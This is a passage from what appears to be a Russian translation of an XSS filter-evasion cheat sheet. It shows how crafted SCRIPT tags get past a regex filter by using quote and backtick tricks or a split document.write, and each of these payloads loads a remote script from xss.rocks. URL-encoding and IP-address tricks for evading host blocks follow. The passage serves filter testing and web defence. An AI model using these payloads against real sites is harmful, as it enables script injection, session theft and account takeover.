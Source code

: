 Другой XSS для обхода того же фильтра: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Еще один XSS, который обходит тот же фильтр: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`

В общем, мы не обсуждаем методы смягчения последствий, но единственное, что останавливает этот пример XSS, - если вы все еще хотите разрешить теги `<SCRIPT>`, но при этом удаленный скрипт не является машиной состояний (и, конечно, есть другие способы обойти это, если они разрешают теги `<SCRIPT>`), используйте это:

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

И последняя атака XSS, которой стоит избежать, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` использованием серьезных ударений (опять же, не работает в Firefox):


```html
<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```


Вот пример XSS, который работает, если регулярное выражение не перехватывает совпадающую пару кавычек, но вместо этого находит любые кавычки, которые неправильно завершают строку параметра:

```html
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Этот XSS все еще беспокоит меня, так как было бы почти невозможно остановить это, не заблокировав весь активный контент:

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### URL String Evasion

Следующие атаки работают, если `http://www.google.com/` программно запрещен:

#### IP В зависимости от имени хоста

```html
<A HREF="http://66.102.7.147/">XSS</A>
```

#### URL Кодирование

```html
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

#### DWORD Кодирование
